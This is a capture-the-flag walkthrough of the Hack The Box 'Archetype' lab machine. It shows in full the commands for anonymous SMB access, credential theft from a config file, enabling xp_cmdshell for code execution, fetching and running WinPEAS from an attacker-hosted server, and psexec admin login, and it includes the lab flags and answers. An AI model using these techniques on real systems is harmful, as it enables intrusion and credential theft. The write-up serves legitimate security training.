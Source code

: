 # Archetype (Tier 2)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark> 2
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Windows
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Protocols / MSSQL / SMB / Powershell / Reconnaissance / Remote Code Execution\
  &#x20;             / Clear Text Credentials / Information Disclosure / Anonymous-Guest Access

<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=2</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial port scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

{% code lineNumbers="true" %}
```bash
nmap 10.129.59.187 -p- -Pn --min-rate 2500 -oN scan.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

> Answer: _**1433**_

***

* Then I did an exhaustive scan on the ports found to get information about the services running

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nmap 10.129.59.187 -p135,139,445,1433,5985,47001,49664,49666,49667,49668,49669 -sVC -oN serv_scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (516).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* I found two interesting services, an SMB server on port 445 and an [_MS SQL_](https://www.microsoft.com/en/sql-server/) database on port 1433. I started interacting with the SMB service using the [_smbclient_](../../networks/tools-and-utilities.md#smbclient) utility and trying to list the shared folders. When asked for the password, I just entered a blank password, and it worked successfully, listing the shared contents&#x20;

{% code lineNumbers="true" %}
```bash
smbclient -L 10.129.59.187
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the SMB protocol, you can go [here](../../networks/protocols/smb.md)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

> Answer: _**backups**_

***

* Then I tried to access these folders and check their content, starting with the striking _backups_ folder, which didn't have privilege restrictions to access it. Once inside, I listed the contents of the folder and found a file that seemed to be a backup of important information, so I downloaded it to my machine and closed the connection

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient //10.129.59.187/backups
get prod.dstConfig
exit
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

***

* I  checked the file content and found important information about the configuration of a product, and within it, credentials for a database. These could be for the _MSSQL_ database that was running on the machine

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

***

* With this and some research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

> Answer: _**M3g4c0rp123**_

***

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

> Answer: _**mssqlclient.py**_

***

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

> Answer: _**xp\_cmdshell**_

***

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

> Answer: _**WinPEAS**_

***

* To help me connect to the database, I used the [_Impacket_](../../networks/tools-and-utilities.md#impacket) toolkit, using the _mssqlclient_ module to connect to the _MS SQL_ service with the credentials I had found in the previous file. Also, as I knew this was a Windows host, I specified to use this kind of authentication, and after starting the connection, I successfully connected

{% code overflow="wrap" lineNumbers="true" %}
```bash
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.59.187 -windows-auth
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

***

* Once inside, I explored the database but didn't find anything relevant, so next, I checked if it was possible to abuse the _xp\_cmdshell_ utility, which could let me gain [_RCE_](../../penetration-testing/related-concepts.md) through _MS SQL_. I tried to execute a command, but it told me that the utility was not configured, so I did the proper configuration, and after retrying, it worked

<pre class="language-powershell" data-overflow="wrap" data-line-numbers><code class="lang-powershell"><strong>EXEC xp_cmdshell 'whoami';
</strong>EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
</code></pre>

<figure><img src="../../.gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
This reconfiguration will only work if we have high privileges to do it
{% endhint %}

{% hint style="success" %}
To learn the complete process for abusing _xp\_cmdshell,_ you can go [here](../../database-attacks/specific-scenarios/ms-sql-xp_cmdshell-abuse.md)
{% endhint %}

***

* With this, as I could execute system commands, I tried to invoke a PowerShell to interact more comfortably with the system. I did a little test using the `pwd` command to and got a positive response, giving us the corresponding output

{% code overflow="wrap" lineNumbers="true" %}
```bash
EXEC xp_cmdshell "powershell -c pwd";
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>

***

* So abusing this, I could do an internal file enumeration in the system. I went to the user's Desktop folder and listed its contents, where I found a _user.txt_ file, which I read to obtain the user flag

{% code overflow="wrap" lineNumbers="true" %}
```powershell
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop ; dir";
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop ; Get-Content user.txt";
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

***

* I had to find a way to escalate privileges, so to help me with this, I tried using [_WinPEAS_](../../penetration-testing/process-stages/post-exploitation/tools-and-utilities.md#winpeas) to find any path to do the escalation. I imported it successfully, ran it, and after the scan was finished, checked the results, which let us know the path to some interesting files that were found

{% code overflow="wrap" lineNumbers="true" %}
```bash
# In our machine
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe   #Get WinPEAS
python3 -m http.server 1234 #On the folder where we have WinPEAS to host it

# In the target machine
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop ; wget http://10.10.14.117:1234/winPEASx64.exe -outfile winPEASx64.exe"
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop ; .\winPEASx64.exe"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (510).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* I observed that one of the routes was under the PowerShell installation folder and seemed to be a file related to the history of commands. If I navigated to that route and checked the content of the file, where I found a command for a previous connection to the _Administrator_ user, and also that the corresponding password for this user was being leaked

<figure><img src="../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

***

* With this and the previously found user flag, I answered the next questions

<figure><img src="../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ConsoleHost\_history.txt**_

***

<figure><img src="../../.gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

> Answer: _**3e7b102e78218e935bf3f4951fec21a3**_

***

* Knowing this information, I could try to access the network service on the target with these credentials. For this, _Impacket_ helped me again, this time with the _psexec_ module, and after using it, I successfully logged in as a privileged user

{% code overflow="wrap" lineNumbers="true" %}
```bash
impacket-psexec administrator@10.129.59.187
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

***

* Finally, I navigated to the Desktop folder of the _Administrator_ user, where I found a _root.txt_ file, and reading its content, I retrieved the root flag

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**b91ccec3305e98240082d4474b848528**_
